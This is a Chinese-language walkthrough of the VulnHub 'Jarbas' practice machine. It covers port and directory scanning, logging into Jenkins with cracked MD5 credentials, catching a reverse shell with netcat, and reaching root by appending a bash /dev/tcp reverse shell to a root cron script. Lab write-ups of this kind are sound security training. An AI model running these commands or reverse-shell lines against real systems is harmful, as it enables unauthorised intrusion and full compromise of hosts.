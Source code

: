 靶场下载地址：https://download.vulnhub.com/jarbas/Jarbas.zip

下载解压导入到虚拟机

**环境：Windows  VMware Kali**

**连接方式： NAT**



**评级：简单**

# 1. 信息收集

**信息收集要收集完全，宁愿多用点时间，否则后面打不动的时候还要再重新收集，这样太浪费时间。我们尽可能的按照流程第一次收集全。**

## 1.1 主机发现



```
 nmap -sn 192.168.125.1/24
```

## 1.2 端口扫描

```
nmap -min-rate 10000 -p- 192.168.125.138
```

**扫描结果：**

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:32 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00049s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:6A:D4:AE (VMware)
```



## 1.3 服务扫描：

```
nmap -sT -sV 192.168.125.139 -O -p 22,80,3306,8080
```

扫描结果：

```shell

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:34 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00061s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
MAC Address: 00:0C:29:6A:D4:AE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```



## 1.4 NMAP 简单漏洞扫描

通过 nmap 自带的扫描脚本可以扫描一些常见的漏洞，由于脚本比较多，扫描速度非常慢。

```shell
nmap -script=vuln -p 22,80,3306,8080 192.168.125.139
```



```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:38 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00041s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
|_http-trace: TRACE is enabled
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|_  /icons/: Potentially interesting folder w/ directory listing
3306/tcp open  mysql
8080/tcp open  http-proxy
| http-enum:
|_  /robots.txt: Robots file
MAC Address: 00:0C:29:6A:D4:AE (VMware)
```



优先级排序 22<3306<80=8080



8080端口服务是 jenkins ：

![image-20230508100047152](./assets/image-20230508100047152.png)

**尝试弱口令登录失败。**







80 端口服务：

![image-20230508100122166](./assets/image-20230508100122166.png)



## 1.5 目录爆破：



```
gobuster dir -u http://192.168.125.139 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html
```

不指定后缀扫描不到东西，我们指定两个后缀名 php和 html



扫描结果：

```shell

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.139
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/05/08 04:08:46 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/index.html           (Status: 200) [Size: 32808]
/access.html          (Status: 200) [Size: 359]
/.html                (Status: 403) [Size: 207]
Progress: 658372 / 661683 (99.50%)
===============================================================
2023/05/08 04:09:58 Finished
===============================================================

```



访问 `access.html` 发现有价值的信息

![image-20230509091623129](./assets/image-20230509091623129.png)



解密MD5 

```
tiago:5978a63b4654c73c60fa24f836386d87    italia99
trindade:f463f63616cb3f1e81ce46b39f882fd5    marianna
eder:9b38e2b1e8b12f426b0d208a7ab6cb98    vipsu
```



用户名eder 密码 vipsu    登录 Jenkins



# 2. 漏洞利用

Jenkins 反弹shell



## 2.1 新建项目

![image-20230509093643899](./assets/image-20230509093643899.png)



![image-20230509093718245](./assets/image-20230509093718245.png)





![image-20230509093912475](./assets/image-20230509093912475.png)



## 2.2 生成 反弹shell 





![image-20230509094111009](./assets/image-20230509094111009.png)

![image-20230509094147160](./assets/image-20230509094147160.png)





## 2.3 kali 开启监听：

```
nc -lvnp 4444
```

##  2.4 开始部署：

![image-20230509094212496](./assets/image-20230509094212496.png)



接收到反弹shell

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.125.133] from (UNKNOWN) [192.168.125.139] 56654
bash: no job control in this shell
bash-4.2$ whoami
whoami
jenkins
```



# 3. 计划任务提权

```
sudo -l 
cat /etc/passwd
cat /etc/crontab
```



查看计划任务：

![image-20230509102623963](./assets/image-20230509102623963.png)



这个脚本是通过root用户运行的每隔 5 分钟就执行一次任务，我们可以通过在脚本中写入反弹shell ，即可获得root权限



查看此脚本：

```
rm -rf /var/log/httpd/access_log.txt
```



把反弹shell 加入到此脚本里面：



```
#注意端口不要冲突
echo "/bin/bash -i >& /dev/tcp/192.168.125.133/5555 0>&1" >> /etc/script/CleaningScript.sh
```



kali 开启监听：

```
nc -lvnp 5555
```



等待几分钟即可获取到 root 权限的 shell



![image-20230509103546347](./assets/image-20230509103546347.png)

当前目录就有 flag 

![image-20230509103829567](./assets/image-20230509103829567.png)